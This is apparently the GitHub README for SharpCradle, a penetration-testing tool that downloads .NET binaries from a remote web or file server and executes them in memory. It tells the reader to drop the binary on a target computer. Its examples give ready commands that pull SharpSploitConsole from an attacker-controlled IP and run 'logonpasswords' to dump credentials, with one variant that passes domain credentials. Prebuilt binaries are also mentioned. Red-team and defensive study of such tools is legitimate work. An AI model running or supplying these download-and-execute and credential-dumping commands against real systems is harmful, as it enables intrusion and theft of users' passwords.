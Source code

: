 # SharpCradle

Description
============

SharpCradle is a tool designed to help penetration testers or red teams download and execute .NET binaries into memory.

Contact at:
- Twitter: @anthemtotheego

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/SCradle.PNG?raw=true "SharpSploitConsole")
![Alt text](/SCradle2.PNG?raw=true "")

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpCradle tool and open up SharpCradle.sln                         

2. Compile, drop binary on target computer and have fun.

Examples 
========

Web Server Download:

```SharpCradle.exe -w https://IP/SharpSploitConsole_x64.exe logonpasswords```

File Server Download Anonymous:

```SharpCradle.exe -f \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

File Server Download With Creds:

```SharpCradle.exe -f -c domain username password \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

